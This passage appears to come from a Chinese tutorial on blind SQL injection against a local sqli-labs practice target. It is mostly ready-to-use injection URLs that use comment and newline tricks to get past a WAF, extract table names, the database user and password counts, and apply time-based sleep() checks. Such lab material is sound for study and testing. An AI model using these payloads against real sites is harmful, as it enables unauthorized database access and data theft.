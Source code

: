 查表名

```
http://172.16.1.157/sql/Less-1/?id=1' and hex(SUBSTR((select table_name from %23a%0a information_schema.tables where table_schema=%23a%0adatabase%23a%0a(/*!)*/ limit 0,1),1,1))=65-- +
```

列名字段名同理，略

## 时间盲注

不匹配成对括号

sleep()绕过

```
http://172.16.1.157/sql/Less-1/?id=1' and sleep(3/*!)*/-- +
```

查用户

```
http://172.16.1.157/sql/Less-1/?id=1'  and if%23%0a(left(user(/*!)*/,1/*!)*/=char(114),sleep(3/*!)*/,1/*!)*/ -- +
http://172.16.1.157/sql/Less-1/?id=1'  and if%23%0a(left(user(/*!)*/,1/*!)*/=0x72,sleep(3/*!)*/,1/*!)*/ -- +
```

查数据 limit过不了

```
http://172.16.1.157/sql/Less-1/?id=1'  and if%23%0a(left((select group_concat(table_name/*!)*/ from%23a%0ainformation_schema.tables where table_schema=database(/*!)*/ /*!)*/,1/*!)*/=0x65,sleep(5/*!)*/,1/*!)*/ -- +
```

# 其他

length()长度

```
http://172.16.1.157/sql/Less-1/?id=1' and length(1)<=>1 -- +
http://172.16.1.157/sql/Less-1/?id=1'  and length(database(/*!))*/<=>8 -- +
```

count()

```
http://172.16.1.157/sql/Less-1/?id=1'  and  (%23a%0aselect count(password/*!)*/ from %23a%0a users/*!)*/<=>13 -- +
```

# 参考

https://github.com/aleenzz/MYSQL_SQL_BYPASS_WIKI

https://www.chabug.org/web/1019.html

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**
